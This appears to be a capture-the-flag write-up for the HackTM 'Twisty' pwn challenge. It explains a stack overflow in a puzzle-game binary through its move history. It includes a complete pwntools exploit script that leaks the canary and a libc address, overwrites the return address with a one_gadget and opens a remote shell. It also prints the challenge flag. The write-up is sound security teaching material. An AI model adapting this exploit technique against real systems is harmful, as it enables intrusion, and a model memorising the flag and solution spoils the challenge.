

# Twisty (pwn)


Had a lot of fun with this challenge. Huge shoutout to [@PewZ](https://github.com/PewZ) for integrating the puzzle solving part of the challenge and ultimately grabbing the flag!

### TL;DR
* [x64 binary](./twisty) 
* [libc given](./libc-2.23.so) 
* Torus Puzzle (4x4) game played over netcat ("rubik's square")
* Board is stored on the stack
* A history of player moves and `nrOfMoves` is kept on the stack
    * Unlimited moves -> stack overflow
    * Overwrite `nrOfMoves` with a large value
    * Leak canary, libc via `list_player_moves_history` func
    * Overwrite return address with `one_gadget`
    * Solve the puzzle to trigger the return

**HackTM{0h_boY_thi$_5P!nniNG's_gonn@_m4k3_Me_D!zzY}**

## Recon

This was a fun challenge to reverse engineer and pwn. We get a binary that lets us play the Torus slider puzzle. It has some security options we're gonna have to get around.
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

A demo of what playing the game looks like is:

```bash
Welcome to my game!
Your job is to get the "rubik's square" to this configuration:

ABCD
EFGH
IJKL
MNOP

Good luck!

AHLG
CEIN
FJDP
MBOK
> ?
Commands:
    ? - print this message
  cXd - rotate column X down
  cXu - rotate column X up
  rXl - rotate row X left
  rXr - rotate row X right
    l - list previous moves
    u - undo last inp

AHLG
CEIN
FJDP
MBOK
> c1d
ABLG
CHIN
FEDP
MJOK
> l
c1d 
ABLG
CHIN
FEDP
MJOK
> 
```
Very early on, teammate [@nnewram](https://twitter.com/nnewram) pointed out that spamming the `undo` option enough made the board disappear and resulted in a segfault.

## Analysis
A quick view in a disassembler or decompiler shows us that winning the game doesn't actually give us any reward apart from a "Congrats!" message. The actual decompilation from e.g. `Ghidra` was not awful, but still not pretty, so I resorted to as much dynamic analysis as possible.

The main loop was pretty standard: Some calls to `getc` followed by some switch/if/else input-dependent cases. No obvious bugs, apart from the one pointed out earlier, were found.

By debugging the function at `0xd80`, from now on called `do_player_move` we see that it takes the board and a player choice as arguments. We notice these are stack variables.

Through dynamic analysis, we find the following things (stack addresses are according to the `main` function.):
* `board` is at `rsp+0x18`, 
* `player_history` is at `rsp+0x28`
* `nrOfMoves` is at `rsp+0x828`
* `canary` is at `rsp+0x838`
* A `libc` address is at `rsp+0x878`
* `return_address` is at `rsp+0x938`
* `do_player_move` appends a nibble (half a byte) to `player_history` and increments `nrOfMoves`
* `undo_move` overwrites the latest move with `0x0` and decrements `nrOfMOves`
    * This is why spamming the `undo` option nulls out the `board` and ultimately segfaults the program
* `list_moves_history` prints `i=nrOfMoves` moves from `player_history`
* => We can achieve arbitrary writing past `rsp+0x28`, because we can spam any of the following have 16 possible player moves in any combination, corresponding to one out of 16 possible nibbles:
```
c0u : 0x0
c1u : 0x1
c2u : 0x2
c3u : 0x3
c0d : 0x4
c1d : 0x5
c2d : 0x6
c3d : 0x7
r0r : 0x8
r1r : 0x9
r2r : 0xa
r3r : 0xb
r0l : 0xc
r1l : 0xd
r2l : 0xe
r3l : 0xf
```

We should be able to overwrite the return address with a `one_gadget`, provided we can leak the `canary` to keep it intact, and leak a `libc` address to calculate the location of said gadget. All we need to do after that is to solve the actual puzzle game, because then the `main` func will `return` and hopefully give us a shell.

## Battle plan

Recall:
* `list_moves_history` prints `i=nrOfMoves` moves from `player_history`
    * So this will only give us the history of what moves we've chosen. Unless...?
* `player_history` is at `rsp+0x28`
* `nrOfMoves` is at `rsp+0x828`

`nrOfMoves` is located after `player_history` on the stack! This means we should be able to overwrite `nrOfMoves` with a larger value, giving us leaks from the stack! Because the `canary` and a `libc` address in turn are located after this value, this is all we need!

## Solution

```python
#!/usr/bin/python2
from pwn import *
from func import f # puzzle solving algorithm
from copy import copy, deepcopy
from string import ascii_uppercase as UC
from sys import exit
from pprint import pprint

# puzzle solving
def col(board,col):
    l = []
    for row in board:
        l.append(row[col])
    return l

# print board
def pb(board):
    print("="*len(str(board[0])))
    for line in board:
        print(line)
    print("="*len(str(board[0])))
def r(l):
    return l[1:] + [l[0]]

def rc(board,col):
    l = [board[i][col] for i in range(len(board)) ]
    l = r(l)
    for i,n in enumerate(l):
        board[i][col] = n
    return board

def rr(board,row):
    l = board[row]
    l = r(l)
    board[row] = l
    return board


ENC_TBL={
0x0 : "c0u", 
0x1 : "c1u", 
0x2 : "c2u", 
0x3 : "c3u", 
0x4 : "c0d", 
0x5 : "c1d", 
0x6 : "c2d", 
0x7 : "c3d", 
0x8 : "r0r", 
0x9 : "r1r", 
0xa : "r2r", 
0xb : "r3r", 
0xc : "r0l", 
0xd : "r1l", 
0xe : "r2l", 
0xf : "r3l" 
}

DEC_TBL={v: k for k, v in ENC_TBL.iteritems()}

def write_nibble(nib):
    p.sendlineafter("> ", ENC_TBL[nib])

def write_word(word):
    nibs = hex(word)[2:].rjust(16, "0")[::-1]
    for i in range(0,len(nibs),2):
        p.sendlineafter("> ", ENC_TBL[int(nibs[i+1],16)])
        p.sendlineafter("> ", ENC_TBL[int(nibs[i],16)])

def decode_word(moves):
    word = ""
    for i in range(0, len(moves), 2):
        word += hex(DEC_TBL[moves[i+1]])[2:]
        word += hex(DEC_TBL[moves[i]])[2:]
    return int(word[::-1],16)


context.terminal = ['tmux', 'splitw', '-h']
with context.verbose:
    libc=ELF('libc-2.23.so')
    #p = process('../twisty', env={"LD_PRELOAD":'libc-2.23.so'})
    p = remote("138.68.67.161", 20007)
    #libc=ELF('libc.so.6')
    #p = process('./twisty', env={"LD_PRELOAD":'libc.so.6'})

    # Traverse stack to reach nrOfMoves
    for i in range(0x800*2):
        write_nibble(0xa)

    # Overwrite nrOfMoves
    write_word(0x1200)
    p.sendlineafter("> ", "l")

    # Leaks for days
    moves_done = p.recvline().split(" ")[:-1]
    canary      = decode_word(moves_done[0x1000+0x20:0x1000+0x20+0x10])
    libc_leak   = decode_word(moves_done[0x1000+0xa0:0x1000+0xa0+0x10])
    #pie_leak    = decode_word(moves_done[0x1000+0x50:0x1000+0x50+0x10])
    #stack_leak  = decode_word(moves_done[0x1000+0x70:0x1000+0x70+0x10])
    libc.address = libc_leak + 0x24b60 - libc.symbols['system']
    one_gadget = libc.address+0x4526a
    print "canary: %x" % canary
    print "libc_leak: %x" % libc_leak
    #print "pie_leak: %x" % pie_leak
    #print "stack_leak: %x" % stack_leak
    print "libc_base: %x" % libc.address
    print "one_gadget: %x" % one_gadget

    # nrOfMoves is messed up, so let's reset it.
    for i in range(0x200):
        p.sendlineafter("> ", "u")

    # Write canary and things back
    write_word(0x1)
    write_word(canary)
    write_word(libc_leak) # Unneccesary, might as well be any value 
    for i in range(6):
        write_word(0x0)

    # Overwrite ret_addr
    write_word(one_gadget)

    #constraints:
    #  [rsp+0x30] == NULL
    for i in range(40):
        write_word(0x0)

    # >>>>>>>>>>>>>>>>> Solve puzzle <<<<<<<<<<<<<<<<<<<<<<
    def read_config():
        config = []
        for i in range(4):
            config.append(list(p.recvline()[:-1]))
        return config

    current = read_config()
    print("current: {}".format(current))
    board = []
    for c in current:
        board.append(list(c))
    print(board)

    board2 = []
    for b in board:
        print(b)
        tmp = []
        for c in b:
            num = format("{:02d}".format(ord(c) - ord('A')))
            tmp.append(num)
        board2.append(tmp)

    pb(board)
    pb(board2)
    board = board2
    orig = deepcopy(board)
    moves = f(orig)

    solve = []
    for faen, move in enumerate(moves):
        i = int(move[1:])
        d = move[0]
        cmd = ""
        if d in "UD": # column
            cmd = "c{}{}".format(i, d.lower())
        else: # row
            cmd = "r{}{}".format(i, d.lower())

        print(cmd)
        solve.append(cmd)

    print(solve)
    try:
        for s in solve:
            p.recvuntil("> ")
            p.sendline(s)
            #if i == len(solve) - 1:
            #    break
            #print(read_config())
            #raw_input("...")
    except Exception as e:
        print(e)
    
    #gdb.attach(p, """
    #    b *0x0000000000000d80+0x555555554000
    #    b *0x0000000000000AC8+0x555555554000
    #    b *0x0000000000000908+0x555555554000
    #""")
    p.interactive()

```
